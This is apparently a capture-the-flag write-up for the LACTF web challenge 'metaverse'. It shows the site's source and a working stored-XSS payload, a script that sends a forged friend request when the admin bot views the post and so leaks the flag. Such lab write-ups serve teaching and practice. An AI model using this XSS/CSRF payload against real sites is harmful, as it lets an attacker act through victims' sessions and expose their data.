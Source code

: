 # metaverse (web) by aplet123

```
web/metaverse
aplet123

Metaenter the metaverse and metapost about metathings. All you have to metado is metaregister for a metaaccount and you're good to metago.

metaverse.lac.tf

You can metause our fancy new metaadmin metabot to get the admin to metaview your metapost!
```

### Site:
When we look at the site mentioned in the description we are prompted to create an account, after that we can add friends and make posts.
If we friend someone like admin, we are listed on their friends list but they not on ours. If we friend ourselves we see:

<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <link href="/style.css" rel="stylesheet" />
        <title>metaverse</title>
    </head>
    <body>
        <h1><span class="meta">meta</span>friends</h1>
        <p>to increase realism, <span class="meta">meta</span>friending is not necessarily a two-way relationship</p>
        <p>if someone <span class="meta">meta</span>friends you, they are your <span class="meta">meta</span>friend but not vice versa</p>
        <div class="centered">
            <input id="friend" type="text" /><br />
            <button onclick="friend()"><span class="meta">meta</span>friend</button>
        </div>
        <p><span class="meta">meta</span>friend list:</p>
        <div id="friendlist"></div>
        <h1><span class="meta">meta</span>posts</h1>
        <div class="centered">
            <textarea id="postcontent"></textarea><br />
            <button onclick="createPost()">new <span class="meta">meta</span>post</button>
        </div>

        <p><span class="meta">meta</span>post list:</p>
        <div id="postlist"></div>
        <script>
            function friend() {
                fetch("/friend", {
                    method: "POST",
                    body: "username=" + encodeURIComponent(document.getElementById("friend").value),
                    headers: {
                        "Content-Type": "application/x-www-form-urlencoded",
                    },
                }).then((res) =>
                    res.text().then((t) => {
                        if (res.status !== 200) {
                            document.querySelector(".error")?.remove();
                            const error = document.createElement("p");
                            error.innerText = t;
                            error.classList.add("error");
                            document.body.insertAdjacentElement("afterbegin", error);
                        } else {
                            location.reload();
                        }
                    })
                );
            }

            function createPost() {
                fetch("/post", {
                    method: "POST",
                    body: "content=" + encodeURIComponent(document.getElementById("postcontent").value),
                    headers: {
                        "Content-Type": "application/x-www-form-urlencoded",
                    },
                }).then((res) =>
                    res.text().then((t) => {
                        if (res.status !== 200) {
                            document.querySelector(".error")?.remove()
                            const error = document.createElement("p");
                            error.innerText = t;
                            error.classList.add("error");
                            document.body.insertAdjacentElement("afterbegin", error);
                        } else {
                            window.open("/post/" + t);
                            location.reload();
                        }
                    })
                );
            }

            fetch("/friends")
                .then((res) => res.json())
                .then((friends) => {
                    const list = document.getElementById("friendlist");
                    if (friends.length === 0) {
                        const ele = document.createElement("p");
                        ele.innerText = "you have none :(";
                        list.appendChild(ele);
                    }
                    for (const f of friends) {
                        const ele = document.createElement("p");
                        ele.innerText = `${f.displayName} (${f.username})`;
                        list.appendChild(ele);
                    }
                });
            fetch("/posts")
                .then((res) => res.json())
                .then((posts) => {
                    const list = document.getElementById("postlist");
                    if (posts.length === 0) {
                        const ele = document.createElement("p");
                        ele.innerText = "you have none :(";
                        list.appendChild(ele);
                    }
                    for (const p of posts.reverse()) {
                        const ele = document.createElement("p");
                        const link = document.createElement("a");
                        link.href = "/post/" + p.id;
                        link.target = "_blank";
                        link.innerText = "link";
                        ele.appendChild(link);
                        ele.appendChild(document.createTextNode(` - ${p.blurb}`));
                        list.appendChild(ele);
                    }
                });
        </script>
    </body>
</html>


The text in parenthesis is our display name.

By creating a post with the text `<script>alert(1)</script>` I saw that the post section of the site was vulnerable to xss and xsrf.

If we look at the source code we can also see that the admin's display name is the flag.
So putting all that together, one might be able to forge a request so that the admin friends oneself.

### Source Code:
We get an index.js file: (I left out the unnecessary parts since it's a long file)
```
const express = require("express");
const path = require("path");
const fs = require("fs");
const cookieParser = require("cookie-parser");
const { v4: uuid } = require("uuid");

const flag = process.env.FLAG;
const port = parseInt(process.env.PORT) || 8080;
const adminpw = process.env.ADMINPW || "placeholder";

const accounts = new Map();
accounts.set("admin", {
    password: adminpw,
    displayName: flag,
    posts: [],
    friends: [],
});
```

### Solution:
When I inspected the site I saw a script with the interesting section:
```
function friend() {
    fetch("/friend", {
        method: "POST",
        body: "username=" + encodeURIComponent(document.getElementById("friend").value),
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
    }).then((res) =>
        res.text().then((t) => {
            if (res.status !== 200) {
                document.querySelector(".error")?.remove();
                const error = document.createElement("p");
                error.innerText = t;
                error.classList.add("error");
                document.body.insertAdjacentElement("afterbegin", error);
            } else {
                location.reload();
            }
        })
    );
}
```
So I copied the section
```
fetch("/friend", {
        method: "POST",
        body: "username=" + encodeURIComponent(document.getElementById("friend").value),
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
    })
```
changed it to
```
<script>fetch("/friend", {
    method: "POST",
    body: username=metaman,
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
    },
})</script>
```
made a post containing that text and sent the link to the admin bot who friended me and showed me the flag:
```
metafriend list:

metaman (metaman)

lactf{please_metaget_me_out_of_here} (admin)
```
Was a fun challenge, even with little experience in web exploitation.